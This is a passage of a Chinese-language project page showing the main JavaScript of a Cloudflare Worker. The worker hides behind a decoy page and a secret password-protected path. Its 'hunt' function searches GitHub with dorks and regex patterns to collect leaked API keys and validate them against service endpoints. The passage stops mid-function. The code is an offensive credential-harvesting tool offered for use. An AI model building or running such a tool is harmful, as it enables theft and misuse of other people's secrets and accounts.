 这是整个项目的核心，处理路由、认证、执行搜索、提取、验证和报告生成的完整流程。

```javascript
import { REGEX_PATTERNS, GITHUB_SEARCH_DORKS, VALIDATION_ENDPOINTS } from './config.js';
import { getDecoyPage, getLoginPage, getHackerPage } from './ui.js';

// 从环境变量中获取配置
// SECRET_PATH, PASSWORD, GITHUB_TOKEN 必须在 Cloudflare Dashboard 中设置
const SECRET_PATH = self.SECRET_PATH || '/private-access';

export default {
    async fetch(request, env, ctx) {
        const url = new URL(request.url);

        // 路由：判断访问的是否是私密通道
        if (url.pathname !== SECRET_PATH) {
            // 如果不是，返回伪装页面
            return new Response(getDecoyPage(), { headers: { 'Content-Type': 'text/html' } });
        }

        // --- 私密通道逻辑 ---
      
        // 步骤1: 检查认证
        const sessionPassword = await getSessionPassword(request, env);
        if (request.method === 'POST') {
            const formData = await request.formData().catch(() => null);
            if (formData && formData.get('password') === env.PASSWORD) {
                // 密码正确，设置 cookie
                const response = new Response(null, { status: 302, headers: { 'Location': url.pathname } });
                setSessionPassword(response, env.PASSWORD);
                return response;
            }
        }
      
        if (sessionPassword !== env.PASSWORD) {
            return new Response(getLoginPage(), { status: 401, headers: { 'Content-Type': 'text/html' } });
        }

        // 步骤2: 处理认证后的请求
        if (request.method === 'POST') {
            const body = await request.json();
            if (body.action === 'hunt') {
                const report = await handleHunt(body.query, env);
                return new Response(JSON.stringify(report), { headers: { 'Content-Type': 'application/json' } });
            }
        }
      
        // 如果是 GET 请求或非 hunt 的 POST 请求，返回主操作页面
        return new Response(getHackerPage(GITHUB_SEARCH_DORKS), { headers: { 'Content-Type': 'text/html' } });
    },
};

// 核心任务处理函数
async function handleHunt(query, env) {
    const startTime = new Date();
  
    // [第一阶段：目标发现与信息获取]
    const searchResults = await searchGitHub(query, env.GITHUB_TOKEN);
  
    let allPotentialKeys = [];
```